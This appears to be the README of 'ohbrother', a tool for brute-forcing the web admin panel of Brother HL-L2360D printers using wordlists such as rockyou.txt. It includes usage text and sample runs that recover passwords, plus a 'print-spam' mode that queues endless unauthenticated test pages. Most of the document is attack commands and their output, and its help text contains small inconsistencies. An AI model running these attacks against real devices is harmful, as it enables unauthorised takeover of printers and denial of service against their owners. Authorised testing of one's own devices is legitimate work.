 # ohbrother
Brother Printer Admin Panel Dictionary attack tool (Designed for the HL-L2360D series)
```
usage: ohbrother.py [-h] --ip-address IP_ADDRESS [--port PORT] [--wordlist WORDLIST]

Brother Printer Admin Panel Dictionary attack (Designed for the HL-L2360D series)

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address of the printer
  --port PORT, -p PORT  Port the admin interface is running on (default: 80)
  --dictionary-attack DICTIONARY_ATTACK, -D DICTIONARY_ATTACK
                        IP Address of the printer
  --print-spam, -S      continuously print test pages (unauthenticated)
  --wordlist WORDLIST, -W WORDLIST
                        Wordlist to use to attack the printer (default:
                        /usr/share/wordlists/rockyou.txt)
```

# Usage

## Dictionary Attack
Dictionary attack using the default wordlist
```
┌──(kali㉿kali)-[~]
└─$ python3 ohbrother.py --ip-address 192.168.0.77
[00:15:05] {/home/kali/ohbrother.py:60} INFO - [*] Starting a dictionary attack on http://192.168.0.77:80/general/status.html
[00:16:19] {/home/kali/ohbrother.py:66} INFO - [*] found correct password: shadow
```
Ohbrother checks for common default brother passwords

```
C:\Users\DrewQ\Desktop\Brother>python main.py --wordlist "C:\Users\DrewQ\Downloads\passwords.txt" --ip-address 192.168.0.77
[23:14:00] {C:\Users\DrewQ\Desktop\Brother\main.py:49} INFO - [*] default password was set: initpas
```

## Print Spam
C:\Users\DrewQ\Desktop\Brother>python ohbrother.py --print-spam initpass --ip-address 192.168.0.77
[23:41:13] INFO - [*] queued a test page
[23:41:16] INFO - [*] queued a test page
[23:41:19] INFO - [*] queued a test page
[23:41:22] INFO - [*] queued a test page
[23:41:25] INFO - [*] queued a test page
[23:41:28] INFO - [*] queued a test page
[23:41:31] INFO - [*] queued a test page
